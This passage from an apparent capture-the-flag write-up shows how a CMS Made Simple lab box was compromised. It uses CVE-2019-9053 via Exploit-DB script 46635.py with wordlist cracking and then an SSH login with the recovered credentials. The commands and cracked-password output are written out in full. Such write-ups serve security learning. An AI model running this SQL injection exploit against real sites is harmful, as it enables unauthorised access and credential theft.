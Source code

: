 	Password found!

* ### SSH Login (user/pass: mitch/secret)

	> ssh -p 2222 mitch@$IP

	Login successful! Shell obtained.


<br>

## Alternate approach (`exploit-db`):

We can find the username and password using exploit-db's SQL Injection script.

* ### Finding the exploit

	> searchsploit --cve 2019-9053

	```
	----------------------------------------------------- ---------------------
 	Exploit Title                                        |  Path
	----------------------------------------------------- --------------------- 
	CMS Made Simple < 2.2.10 - SQL Injection             | php/webapps/46635.py
	----------------------------------------------------- --------------------- 
	Shellcodes: No Results
	```

	Copying the script to the current directory

	> searchsploit -m php/webapps/46635.py

	The exploit can also be downloaded from the [Exploit-DB](https://www.exploit-db.com/exploits/46635) website.

* ### Execution

	> python 46635.py -u http://$IP/simple/ --crack -w /usr/share/wordlists/rockyou.txt

	```
	[+] Salt for password found: 1dac0d92e9fa6bb2
	[+] Username found: mitch
	[+] Email found: admin@admin.com
	[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
	[+] Password cracked: secret
	```
	
**NOTE** - The exploit from exploit-db has gotten relatively old and hence this approach requires a loadfull of environment setup such as the explicit need of Python2 (most modern linux operating systems come with Python3 and doesn't allow a direct installation of Python2 as it is deprecated), pip2, and hence all other dependencies of Python2 and pip2. Also, this exploit takes comparatively more time in grabbing the username and password, whereas the initial approach does it in seconds (as the username can be guessed easily).


<br>

## Exploring current shell and file system:
